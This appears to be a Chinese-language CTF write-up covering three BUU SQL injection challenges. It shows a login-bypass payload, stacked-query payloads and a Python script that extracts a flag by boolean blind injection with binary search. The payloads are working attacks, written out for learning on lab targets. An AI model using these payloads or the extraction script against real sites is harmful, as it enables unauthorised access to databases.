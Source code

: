 # Nep第五周

在buu上做了几道SQL的题目



## [极客大挑战 2019] EasySQL

题目：

![](https://gitee.com/chen-lishan/tuc/raw/master/题目.png)

页面为登陆模式，需要输入用户名和密码

尝试输入1，结果提示用户名和密码错误；

在`username`处加个常规的`'`，结果报错了：

![](https://gitee.com/chen-lishan/tuc/raw/master/报错.png)

考虑到是SQL注入，于是在用户名和密码均输入万能密码:

```
admin' or '1'='1
```

成功登录，得到flag





## [SUCTF 2019]EasySQL1

### 判断注入方法

显注：union 联合查询，union被过滤

报错注入：and、or、updatexml被过滤。没有报错信息，报错注入基本不用考虑

bool注入：and、or被过滤。不管怎么样都是返回nonono，就连数据库长度大于1这种探针都返回nonono，说明应该不是bool注入

time注入：and、or被过滤。

**堆叠注入**：考虑到过滤了很多关键词，尝试堆叠查询，这个可使用的语句比较多。就是一个sql语句";"后面可以继续执行sql查询语句

### 堆叠注入

**post 传参**

```mysql
1;show databases;   #查询数据库
1;show tables;      #查询表名
```

![](https://gitee.com/chen-lishan/tuc/raw/master/tables.png)

构造**payload**

```
*,1
```

拼接一下，就是：`select *,1||flag from Flag`

等同于`select *,1 from Flag`

**查询语句**：`select *,1||flag from Flag`

- sql=select.post['query']."||flag from Flag";
  如果$post['query']的数据为*,1，sql语句就变成了`select *,1||flag from Flag`，
  就是select *,1 from Flag，这样就直接查询出了Flag表中的所有内容。

- `||`在mysql中表示或，如果前一个操作数为真，则不看后面的语句

  `||`相当于将 select 1 和 select flag from flag 的结果拼接在一起

- select任何一个常数都会在表中新建一列，即增加一个临时列，列名是1。然后查询出那一列的内容。`select 1 from Flag`的结果就是那一列的值都为1，这一列有几个字段取决于原字段的多少。

整个payload语句的意思就是查询所有数据，然后增加一个临时列

第一列是本来数据库的，后面是新增的临时列



![](https://gitee.com/chen-lishan/tuc/raw/master/1.flag.png)



## [CISCN2019 华北赛区 Day2 Web1]Hack World

#### bool盲注

题目提示是sql注入

简单测试一下，输入不同的字符会有不同的回显，输入`1'`，返回bool（false），那么，应该是**bool注入**

![](https://gitee.com/chen-lishan/tuc/raw/master/bool.png)

测试发现，ascii、substr都没有被过滤；空格被过滤了，可以使用()代替



#### **POST传参**

**POST传参**，payload写在下方，`id=`

而GET传参，payload应连在网址后面

![](https://gitee.com/chen-lishan/tuc/raw/master/post.png)



#### 异或

题目提示：All You Want Is In Table 'flag' and the column is 'flag'

flag在flag表的flag字段中，于是可以写`select(flag)from(flag)`

```
0^(ascii(substr((select(flag)from(flag)),1,1))=ascii('f'))
```

`^`是异或，意思是or

#### 二分脚本

```python
import requests
import time
url='http://b983611d-30c5-4eef-bd3d-4178a5d4656b.node3.buuoj.cn'
result=''

for x in range(1,50):
    high=127
    low=32
    mid=(high+low)//2
    while high>low:
        payload="0^" + "(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(x,mid)
        data={"id":payload}
        html=requests.post(url,data=data).text
        #time.sleep(0.5)
        if "Hello" in html:
            low=mid+1
        else:
            high=mid
        mid=(low+high)//2
    result+=chr(int(mid))
    print(result)
```

**format 函数**：

通过 `{}`和 `: `来代替以前的 `%` 。format 函数可以接受不限个参数，位置可以不按顺序。

得到flag：

![img](https://gitee.com/chen-lishan/tuc/raw/master/3.flag.png)